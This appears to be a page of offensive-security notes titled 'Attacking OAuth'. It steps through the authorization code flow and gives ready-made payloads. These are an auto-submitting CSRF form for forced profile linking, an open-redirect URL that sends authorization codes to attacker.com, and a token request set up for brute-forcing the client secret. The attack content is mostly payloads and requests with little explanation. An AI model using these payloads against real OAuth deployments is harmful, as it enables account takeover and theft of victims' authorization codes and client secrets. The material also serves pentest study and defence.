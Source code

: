 #### Docs
https://rodolfomarianocy.medium.com/jwt-token-entenda-do-ponto-de-vista-defensivo-e-ofensivo-1aad6406de53
	
## Attacking OAuth
### Workflow OAuth Authorization Code Grant Type
1- 
  
```
GET /authorization?client_id=<client_id>&redirect_uri=https://site.com/callback&response_type=code&scope=openid%20profile%20email HTTP/1.1  
Host: site.com
```
2-
  
```
GET /callback?code=<code> HTTP/1.1
Host: site.com
```
Vulnerability Forced OAuth profile linking
  
-> CSRF
```
<html>
	<body>
      		<form action="http://site.com/callback?code=<code>" method="GET">
		</form> 
	</body>
	<script>
		document.forms[0].submit();
	</script>
</html>
```  

Vulnerability Code Stealing

-> Open Redirect (redirect_uri)
```
https://site.com/authorization?client_id=%3Cclient_id%3E&redirect_uri=http://attacker.com/callback&response_type=code&scope=openid%20profile%20email
```
3-
```
POST /token HTTP/1.1
Host: oauth.server.com

client_id=<client_id>&client_secret=<client_secret>&redirect_uri=https://site.com/callback&grant_type=authorization_code&code=<code>
```
Vulnerability Brute-Force the Client Secret

```
POST /token 
Host: site.com
Content-Type: application/x-www-form-urlencoded  

client_id=<client_id>&client_secret=<BRUTE_FORCE>&redirect_uri=http%3A%2F%2Fip%2Fcallback&grant_type=authorization_code&code=<code>
```  
4-
```  
{
    "access_token": "<access_token>",
    "token_type": "Bearer",
    "expires_in": 3600,
    "scope": "openid profile"
}
```